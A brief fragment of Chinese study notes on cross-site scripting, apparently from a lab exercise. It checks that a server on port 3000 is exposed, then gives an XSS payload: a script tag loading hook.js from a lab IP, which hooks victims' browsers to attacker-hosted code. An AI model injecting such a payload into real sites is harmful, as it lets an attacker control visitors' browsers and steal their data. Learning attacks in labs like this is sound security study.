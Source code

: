 ```sh
ss -tnlp 
查看端口号，看看3000 是否只是本地的
显示的是0.0.0.0:3000 代表任意都可以
```

提交

```sh
<script src="http://192.168.83.145:3000/hook.js"></script>
```

![image-20201114211820475](73、XSS跨站脚本攻击/image-20201114211820475.png)

![image-20201114212512274](73、XSS跨站脚本攻击/image-20201114212512274.png)
